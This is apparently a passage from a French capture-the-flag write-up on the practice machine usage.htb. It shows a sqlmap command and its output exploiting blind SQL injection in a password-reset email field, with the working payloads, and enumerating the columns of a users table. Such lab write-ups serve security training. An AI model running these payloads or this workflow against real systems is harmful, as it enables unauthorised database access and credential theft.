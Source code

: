### MySQL - usage_blog
A l'aide de plusieurs requête, on trouve un table `users` dans la base de données `usage_blog`. Dans cette bdd, on trouve les champs:
- email
- password

```bash
$ sqlmap -r request.txt --data="_token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold" -p email --batch --level 5 --risk 3 --threads 10 -D usage_blog -T users --columns

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:30:20 /2024-08-06/

[23:30:20] [INFO] parsing HTTP request from 'request.txt'
[23:30:21] [INFO] resuming back-end DBMS 'mysql' 
[23:30:21] [INFO] testing connection to the target URL
got a 302 redirect to 'http://usage.htb/forget-password'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 5458=(SELECT (CASE WHEN (5458=5458) THEN 5458 ELSE (SELECT 4624 UNION SELECT 6593) END))-- UEue

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=SPlfAxte0uocmjyWay8x9TCSAcphFEZMqPL4gIIh&email=leopold' AND 1208=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- zgvX
---
[23:30:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[23:30:23] [INFO] fetching columns for table 'users' in database 'usage_blog'
[23:30:23] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
8
[23:30:32] [INFO] retrieving the length of query output
[23:30:32] [INFO] retrieved: 10
[23:31:00] [INFO] retrieved: created_at             
[23:31:00] [INFO] retrieving the length of query output
[23:31:00] [INFO] retrieved: 9
[23:31:16] [INFO] retrieved: timestamp           
[23:31:16] [INFO] retrieving the length of query output
[23:31:16] [INFO] retrieved: 5
[23:31:34] [INFO] retrieved: email           <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
[23:31:34] [INFO] retrieving the length of query output
[23:31:34] [INFO] retrieved: 12
```